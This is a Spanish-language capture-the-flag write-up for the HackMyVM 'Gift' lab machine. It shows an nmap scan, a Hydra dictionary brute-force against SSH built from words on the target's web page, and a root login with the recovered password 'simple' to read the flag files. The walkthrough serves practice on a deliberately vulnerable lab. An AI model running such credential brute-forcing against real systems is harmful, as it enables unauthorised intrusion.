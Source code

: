 # WriteUp: Gift | HackMyVM

### <mark style="color:yellow;">Análisis Inicial</mark>

Este documento detalla el proceso de resolución para la máquina **Gift** de la plataforma HackMyVM. La descripción de la máquina virtual (VM) establece la siguiente premisa:

> "A really easy VM. Thats a gift :)"

Lo cual traducido al español sería algo como:

```
Opción más literal y directa: 
"Una VM muy fácil. Es un regalo :)"

Opciones más naturales y comunes en español:

- "Una VM realmente fácil. Es todo un regalo :)"
    
- "Una máquina virtual muy sencilla. Prácticamente un regalo :)"
    
- "Esta VM es muy fácil. Un regalito :)" (Más informal)
```

Esta afirmación sugiere que la ruta de explotación no requerirá técnicas complejas ni una enumeración exhaustiva. La estrategia inicial se basará en identificar pistas evidentes y seguir la ruta más directa posible.

### <mark style="color:green;">Fase 1: Reconocimiento</mark>

El objetivo de esta fase es identificar los puntos de entrada y los servicios expuestos en la máquina víctima.

#### <mark style="color:purple;">Escaneo de Puertos y Servicios</mark>

Se ejecutó un escaneo de red utilizando **Nmap** para identificar puertos abiertos, versiones de servicios y ejecutar scripts de enumeración básicos.

<mark style="color:purple;">**Comando Ejecutado:**</mark>

```sh
nmap -sV -O -sC -T4 172.16.201.128
```

Resultados del Escaneo:

El escaneo reveló dos servicios principales en ejecución:

```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
| ssh-hostkey: 
|   3072 2c:1b:36:27:e5:4c:52:7b:3e:10:94:41:39:ef:b2:95 (RSA)
|   256 93:c1:1e:32:24:0e:34:d9:02:0e:ff:c3:9c:59:9b:dd (ECDSA)
|_  256 81:ab:36:ec:b1:2b:5c:d2:86:55:12:0c:51:00:27:d7 (ED25519)
80/tcp open  http    nginx
|_http-title: Site doesn't have a title (text/html).
```

* **Puerto 22:** Servicio **SSH** (OpenSSH 8.3).
* **Puerto 80:** Servicio **HTTP** (Nginx).

#### <mark style="color:purple;">Acceso al Servicio Web</mark>

Al acceder a la dirección IP `http://172.16.201.128` a través de un navegador web, se encontró una página con un único mensaje, reforzando la idea inicial de simplicidad:

<figure><img src="../../.gitbook/assets/web-acces.png" alt=""><figcaption></figcaption></figure>

> "Dont Overthink. Really, Its simple."

Por lo que su traducción al español sería algo como esto:

```
Opción 1 (Más directa):
"No lo pienses demasiado. En serio, es simple."

Opción 2 (Muy común y natural): 
"No le des tantas vueltas. De verdad, es sencillo."

Opción 3 (Enfocada en la acción):
"No te compliques. En serio, es simple."
```

Lo usual sería que después de ingresar a la página web realicemos un búsqueda de directorios internos u ocultos de la misma, sin embargo, según el texto y sus traducciones, "no deberíamos de darle muchas vueltas".

Así mismo, ingresamos a la página web para poder identificar alguna pista que nos permite obtener credenciales de acceso a través de ssh, por lo que quizá algún juego de las palabras que se muestran en pantalla sea parte de las credenciales.

### <mark style="color:green;">Fase 2: Explotación</mark>

Esta fase se centra en obtener acceso al sistema utilizando la información recopilada.

#### <mark style="color:purple;">Ataque de Fuerza Bruta a SSH</mark>

La estrategia consistió en realizar un ataque de fuerza bruta por diccionario contra el servicio SSH, utilizando las palabras encontradas en la web y otros nombres de usuario comunes.

<mark style="color:purple;">**1. Creación del Diccionario**</mark>

Se creó un archivo `credenciales.txt` con la siguiente lista de posibles usuarios y contraseñas:

```
user
admin
root
toor
test
Dont
Overthink
Really
Its
simple
```

<mark style="color:purple;">**2. Ejecución del Ataque con Hydra**</mark>

Se utilizó la herramienta **Hydra** para automatizar el ataque, utilizando el mismo archivo como lista de usuarios (`-L`) y contraseñas (`-P`).

<mark style="color:purple;">**Comando Ejecutado:**</mark>

```sh
hydra -L credenciales.txt -P credenciales.txt ssh://172.16.201.128 -V
```

<mark style="color:purple;">**3. Obtención de Credenciales**</mark>

El ataque fue exitoso, revelando un par de credenciales válidas para el sistema.

<mark style="color:purple;">**Resultado de Hydra:**</mark>

```sh
[22][ssh] host: 172.16.201.128   login: root   password: simple
```

* **Usuario:** `root`
* **Contraseña:** `simple`

### <mark style="color:green;">Fase 3: Post-Explotación</mark>

Con credenciales de `root`, el objetivo final es encontrar y leer las banderas de `user` y `root` para completar el desafío.

#### <mark style="color:purple;">Acceso y Captura de Banderas (Flags)</mark>

<mark style="color:purple;">**1. Conexión Remota**</mark>

Se estableció una conexión SSH utilizando las credenciales obtenidas:

```sh
ssh root@172.16.201.128
```

Al solicitar la contraseña, se ingresó `simple`, obteniendo acceso inmediato a una shell como superusuario (`root`).

<mark style="color:purple;">**2. Localización y Lectura de Banderas**</mark>

Siguiendo la premisa de la simplicidad de la máquina, se ejecutó un comando `ls -la` en el directorio principal del usuario (`/root`).

```sh
# ls -la
drwx------    2 root     root          4096 Sep 24  2020 .
drwxr-xr-x   22 root     root          4096 Sep 18  2020 ..
-rw-------    1 root     root            23 Jul 27 16:41 .ash_history
----------    1 root     root            12 Sep 24  2020 root.txt
-rw-rw----    1 root     root            12 Sep 24  2020 user.txt
```

Las banderas `user.txt` y `root.txt` se encontraron directamente en el directorio home del usuario `root`. Se procedió a leer su contenido con el comando `cat`.

<mark style="color:purple;">**Ejemplo de Lectura:**</mark>

```sh
cat user.txt
cat root.txt
```

La lectura de estos archivos finalizó exitosamente el desafío CTF.
